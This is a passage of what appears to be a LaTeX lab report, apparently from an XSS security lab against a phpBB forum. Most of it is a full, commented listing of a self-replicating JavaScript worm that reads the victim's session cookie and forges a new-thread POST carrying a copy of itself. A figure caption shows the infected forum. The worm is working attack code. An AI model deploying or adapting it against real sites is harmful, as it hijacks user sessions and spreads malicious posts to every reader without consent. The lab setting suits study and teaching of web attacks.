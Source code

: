 \begin{lstlisting}[caption=A human-readable version of the Sunshine and Rainbows worm]
//Place a giant image in the post, so we're not just posting nothing
<img src=http://i.imgur.com/B4kPQ.jpg>

//Define the worm
<script id=sunshineAndRainbows>
    //Grab all the user's cookies
    var cookies=document.cookie.split(';');
    var sid_cookie=null;
    //Search through the array of cookies for the one that contains "phpbb2mysql_sid"
    //Note that we need to use i=i-(-1) here since + symbols aren't allowed
    for(i=0;i<cookies.length;i=i-(-1)){
        //When we find it, slice of the start. The rest of the string will be
        //the cookie we need
        if(cookies[i].match("phpbb2mysql_sid")) sid_cookie=cookies[i].slice(13)
    };
    //Grab the payload from the current web page
    var payload=document.getElementById("sunshineAndRainbows").innerHTML;
    var Ajax=null;

    //Build the HTTP Request to match the contents of a genuine posting request
    Ajax=new XMLHttpRequest();
    Ajax.open("POST","http://www.xsslabphpbb.com/posting.php",true);
    Ajax.setRequestHeader("Host","www.xsslabphpbb.com");
    Ajax.setRequestHeader("Keep-Alive","300");
    Ajax.setRequestHeader("Connection","keep-alive");
    Ajax.setRequestHeader("Cookie",document.cookie);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

    //Set the content to be a request to create a new thread
    var content="".concat(
        "subject=XSSWorm",//The subject of the new thread
        "&message=%3Cimg src=http://i.imgur.com/B4kPQ.jpg%3E",//The aforementioned giant image
        "%3Cscript id=sunshineAndRainbows%3E",escape(payload),"%3C%2Fscript%3E",//The self-replicating part of the virus
        "&mode=newtopic&f=1&",sid_cookie,"&post=Submit"); //Submit this as a request for a new thread in subforum 1

    //And here we go...
    Ajax.send(content);
</script>
\end{lstlisting}

\begin{figure}[h]
    \centering
    \includegraphics[width=.8\linewidth]{images/sunshine_and_rainbows.png}
    \caption{The malicious post made to the forum, infecting it with the worm}
\end{figure}

